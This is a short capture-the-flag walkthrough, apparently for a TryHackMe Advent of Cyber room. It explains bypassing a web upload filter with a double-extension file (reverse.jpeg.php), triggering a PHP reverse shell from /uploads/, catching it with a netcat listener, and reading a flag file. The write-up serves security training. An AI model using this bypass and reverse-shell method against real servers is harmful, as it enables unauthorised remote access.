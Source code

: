# Day 2 - The Elf Strikes Back!

- What string of text needs added to the URL to get access to the upload page?

	- `?id=YOUR-ID-HERE`

- What type of file is accepted by the site?

	- Open the browser and check the page source code. You will find this string: `<input type=file id="chooseFile" accept=".jpeg,.jpg,.png">`
	- `image`

- Bypass the filter and upload a reverse shell.
In which directory are the uploaded files stored?

	- Change the ip in the file reverse.jpeg.php with your ip (in the vpn...so tun0) and upload that file.

	- `/uploads/`

- Activate your reverse shell and catch it in a netcat listener!

	- `nc -lvnp 1234`

	- Go to `http://<TARGET_IP>/uploads/` and click on reverse.jpeg.php

	- You should see a shell.

- What is the flag in /var/www/flag.txt?

	- `cat /var/www/flag.txt`

	- `THM{**********************************}`
